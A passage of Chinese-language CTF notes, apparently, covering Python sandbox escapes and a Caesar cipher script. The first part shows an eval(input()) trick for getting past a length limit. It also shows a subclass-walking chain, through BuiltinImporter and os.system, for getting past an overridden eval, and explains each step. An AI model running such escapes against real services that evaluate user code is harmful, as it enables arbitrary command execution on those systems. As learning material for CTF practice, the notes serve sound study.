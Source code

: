 **输入限制绕过**

```Python
if len(code) > 15 # 通过延后输入代码解析

eval(input()) # 使用该命令绕过初始限制
```

**重写`eval`屏蔽**

```python
eval(code, {"__builtins__": {"eval": lambda *x: print("sry, no eval for u")}}, {})
# eval(code, globals, locals): globals 和 locals 定义了全局和局部命名空间
# {"__builtins__": {"eval": lambda *x: print("sry, no eval for u")}} 作为全局重写为无论输入什么都只打印
```

```bash
# 绕过
[klass for klass in "".__class__.__base__.__subclasses__() if klass.__name__ == "BuiltinImporter"][0].load_module("builtins").__import__("os").system("ls")

# "".__class__: 获取<class 'str'>
# .__base__: 获取基类<class 'object'>
# .__subclasses__(): 返回object类所有子类列表
# 列表推导式筛选出BuiltinImporter的类——用于导入内置模块
# [0]取出第一个元素BuiltinImporter类
# .load_module("builtins"): 加载builtins模块，包含python所有内置对象和函数
# .__import__("os").system("ls") # 执行命令
```



## 密码

**凯撒密码**

```Python
a = "encrypt_data"
shift = 5
text = ""

for char in a:
    if char.isalpha():
        shift_base = ord('A') if char.isupper() else ord('a')
        text += chr((ord(char) - shift_base + shift) % 26 + shift_base)
    else:
        text += char

print(text)
```

**福尔摩斯跳舞小人加密**

<img src="/img/misc_note.zh-cn.assets/17284513528808.png" alt="图片无法加载" />
